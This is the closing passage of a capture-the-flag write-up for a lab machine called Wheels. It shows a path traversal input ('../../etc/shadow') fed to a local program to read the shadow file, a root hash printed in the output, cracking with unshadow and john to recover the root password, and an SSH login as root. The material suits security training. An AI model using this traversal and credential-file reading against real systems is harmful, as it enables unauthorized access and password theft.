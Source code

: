 **/etc/shadow**

```sh
bob@wheels:/opt$ ./get-list

Which List do you want to open? [customers/employees]: ../../etc/shadow #employees
Opening File....

root:$6$Hk74of.if9klVVcS$EwLAljc7.DOnqZqVOTC0dTa0bRd2ZzyapjBnEN8tgDGrR9ceWViHVtu6gSR.L/WTG398zZCqQiX7DP/1db3MF0:19123:0:99999:7:::
daemon:*:18474:0:99999:7:::
bin:*:18474:0:99999:7:::
sys:*:18474:0:99999:7:::
sync:*:18474:0:99999:7:::
...
```

Use the `unshadow` tool to combine the passwd and shadow file together which later can be used to crack the hashes using john.

```sh
naveenj@hackerspace:|01:08|~/proving_grounds/Wheels$ unshadow passwd shadow > crackme 
naveenj@hackerspace:|01:08|~/proving_grounds/Wheels$ john crackme --wordlist=/usr/share/wordlists/rockyou.txt 
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
highschoolmusical (root)     #root password
1g 0:00:05:00 5.27% (ETA: 02:44:00) 0.003327g/s 2877p/s 2899c/s 2899C/s marquie1..marlai
```

SSH to root using the credential `root:highschoolmusical`.

```sh
naveenj@hackerspace:|02:52|~/proving_grounds/Wheels$ ssh root@192.168.196.202
root@192.168.196.202's password: 
Last login: Sun Oct  8 05:09:27 2023 from 192.168.45.153
root@wheels:~# 
```

**Root Obtained**

## References

- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XPATH%20Injection/README.md#exploitation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XPATH%20Injection/README.md#exploitation)
- [https://book.hacktricks.xyz/pentesting-web/xpath-injection#string-extraction](https://book.hacktricks.xyz/pentesting-web/xpath-injection#string-extraction)

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).